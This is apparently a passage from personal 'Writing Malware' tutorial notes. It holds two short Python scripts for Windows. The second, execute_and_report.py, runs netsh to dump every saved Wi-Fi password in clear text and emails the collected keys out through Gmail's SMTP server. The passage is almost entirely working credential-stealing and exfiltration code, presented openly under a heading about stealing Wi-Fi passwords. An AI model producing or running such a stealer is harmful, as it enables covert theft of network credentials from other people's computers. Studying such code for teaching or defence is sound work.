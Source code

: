 ```python
#! /usr/bin/env python

import subprocess, smtplib, re

def send_mail(email, password, message):
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

command = "netsh wlan show profile"
networks = subprocess.check_output(command, shell=True)
network_names_list = re.findall("(?:Profile\s*:\s)(.*)", networks)
print(network_names_list)

#send_mail("<email_id>", "<app_pass>", result)

```

![Screenshot 2024-03-18 030029.png](Writing%20Malware%208807b30c1663449c9b571d0ecaf6eef5/Screenshot_2024-03-18_030029.png)

## #Finally Stealing Wifi Passwords Saved on a Computer

execute_and_report.py

```python
#! /usr/bin/env python

import subprocess, smtplib, re

def send_mail(email, password, message):
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()

command = "netsh wlan show profile"
networks = subprocess.check_output(command, shell=True)
network_names_list = re.findall("(?:Profile\s*:\s)(.*)", networks)

result = ""
for network_name in network_names_list:
    command = "netsh wlan show profile " + network_name + " key=clear"
    current_result = subprocess.check_output(command, shell=True)
    result = result + current_result

send_mail("<email_id>", "<app_pass>", result)

```

---